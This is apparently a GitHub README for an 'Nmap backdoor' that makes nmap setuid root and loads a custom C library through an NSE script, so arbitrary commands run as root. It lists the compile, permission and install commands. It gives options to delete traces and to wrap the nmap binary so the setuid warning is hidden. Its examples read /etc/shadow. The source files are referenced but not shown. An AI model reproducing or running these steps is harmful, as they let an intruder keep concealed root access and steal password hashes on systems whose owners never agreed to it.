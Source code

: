 # Nmap backdoor
Backdoor that leverages Nmap with setuid permissions to execute commands as root through a Lua-loaded C library

Special thanks to [hackerfantastic](https://x.com/hackerfantastic) for giving me some pointers to make this work and for telling me the story of the old method (patched about 20 years ago) that used `sudo chmod 4755 /usr/bin/nmap`, `nmap --interactive`, and `!sh` to get a root shell, which is the inspiration for this new one
### Steps:
**0. Required installs:**
```
sudo apt install gcc libcap-dev liblua5.4-dev
```
**1. Compilation:**
```
gcc -shared -fPIC -o socket.so socket.c -I/usr/include/lua5.4 -llua5.4
```
**2. Permissions**:
```
sudo chmod 4755 /usr/bin/nmap
```
**3. Prepare files:**
```
sudo cp socket.nse /usr/share/nmap/scripts/ && sudo cp socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Or if you don't want to leave any traces of the files, you can use:
```
rm socket.c && sudo mv socket.nse /usr/share/nmap/scripts/ && sudo mv socket.so /usr/share/nmap/nselib/ && sudo nmap --script-updatedb
```
Optionally, if you want to remove the nmap warning flag about the setuid, you can do something like this:
```
sudo mv /usr/bin/nmap /usr/bin/nmap_ && printf '%s\n' '#!/bin/bash' 'exec /usr/bin/nmap_ "$@" 2> >(grep -v -F "setuid" >&2)' | sudo tee /usr/bin/nmap > /dev/null && sudo chmod 755 /usr/bin/nmap
```
**Example commands:**
```
nmap -p 631 --script socket.nse --script-args socket.command=whoami localhost
```
![whoami](screenshots/whoami.png)
```
nmap -p 631 --script socket.nse --script-args socket.command="cat /etc/shadow" localhost
```
![cat /etc/shadow](screenshots/shadow.png)
### Disclaimer
This is a tool for educational / personal use only — the author is not responsible for any misuse

Shield: [![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
